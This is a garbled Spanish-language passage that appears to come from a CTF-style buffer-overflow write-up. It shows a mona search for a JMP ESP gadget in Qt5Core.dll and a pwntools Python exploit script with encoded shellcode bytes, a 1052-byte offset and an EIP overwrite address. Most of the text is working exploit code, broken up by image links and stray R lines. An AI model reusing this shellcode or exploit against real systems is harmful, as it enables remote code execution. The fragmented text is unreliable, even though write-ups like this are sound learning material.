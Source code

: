 ```bash
 ff e4 
```

) en la dll.

    ```bash
    !mona find -s "\xff\xe4" -m Qt5Core.dll
    ```

    knitr::include_graphics("images/Buff-execution-rights-jmpesp.png")
![Buff-rotectio_false](/assets/images/Buff-protection_false.png)
    ```

1. Cambiamos el script poniendole la nueva direccion

    import socket
![Buff-rotectio_false](/assets/images/Buff-protection_false.png)
    import signal
    import pdb
    import sys
    import time
    from pwn import *
    from struct import pack

   # Variables globales

    remoteAddress = "127.0.0.1"

            b"\x68\x49\x97\x74\xe0\xac\xa6\xb4\x96\xa5\x99\x04\xdc\xeb\x15"

![Buff-executio-rihts-jmes](/assets/images/Buff-execution-rights-jmpesp.png)
            b"\xee\xb0\x1f\xad\x82\x1c\x10\x06\x28\x7b\x1f\x97\x01\xbf\x3e"
            b"\x1b\x58\xec\xe0\x22\x93\xe1\xe1\x63\xce\x08\xb3\x3c\x84\xbf"
            b"\x23\x48\xd0\x03\xc8\x02\xf4\x03\x2d\xd2\xf7\x22\xe0\x68\xae"
            b"\xe4\x03\xbc\xda\xac\x1b\xa1\xe7\x67\x90\x11\x93\x79\x70\x68"
            b"\x5c\xd5\xbd\x44\xaf\x27\xfa\x63\x50\x52\xf2\x97\xed\x65\xc1"
            b"\xea\x29\xe3\xd1\x4d\xb9\x53\x3d\x6f\x6e\x05\xb6\x63\xdb\x41"
            b"\x90\x67\xda\x86\xab\x9c\x57\x29\x7b\x15\x23\x0e\x5f\x7d\xf7"
            b"\x2f\xc6\xdb\x56\x4f\x18\x84\x07\xf5\x53\x29\x53\x84\x3e\x26"
            b"\x90\xa5\xc0\xb6\xbe\xbe\xb3\x84\x61\x15\x5b\xa5\xea\xb3\x9c"
            b"\xca\xc0\x04\x32\x35\xeb\x74\x1b\xf2\xbf\x24\x33\xd3\xbf\xae"
            b"\xc3\xdc\x15\x60\x93\x72\xc6\xc1\x43\x33\xb6\xa9\x89\xbc\xe9"
            b"\xca\xb2\x16\x82\x61\x49\xf1\x6d\xdd\x51\x11\x06\x1c\x51\x10"
            b"\x6d\xa9\xb7\x78\x81\xfc\x60\x15\x38\xa5\xfa\x84\xc5\x73\x87"
            b"\x87\x4e\x70\x78\x49\xa7\xfd\x6a\x3e\x47\x48\xd0\xe9\x58\x66"
            b"\x7c\x75\xca\xed\x7c\xf0\xf7\xb9\x2b\x55\xc9\xb3\xb9\x4b\x70"
            b"\x6a\xdf\x91\xe4\x55\x5b\x4e\xd5\x58\x62\x03\x61\x7f\x74\xdd"
            b"\x6a\x3b\x20\xb1\x3c\x95\x9e\x77\x97\x57\x48\x2e\x44\x3e\x1c"
            b"\xb7\xa6\x81\x5a\xb8\xe2\x77\x82\x09\x5b\xce\xbd\xa6\x0b\xc6"
            b"\xc6\xda\xab\x29\x1d\x5f\xdb\x63\x3f\xf6\x74\x2a\xaa\x4a\x19"
            b"\xcd\x01\x88\x24\x4e\xa3\x71\xd3\x4e\xc6\x74\x9f\xc8\x3b\x05"
            b"\xb0\xbc\x3b\xba\xb1\x94")
        offset = 1052
        before_eip = b"A" * offset
        eip = pack("<I", 0x68a98a7b)
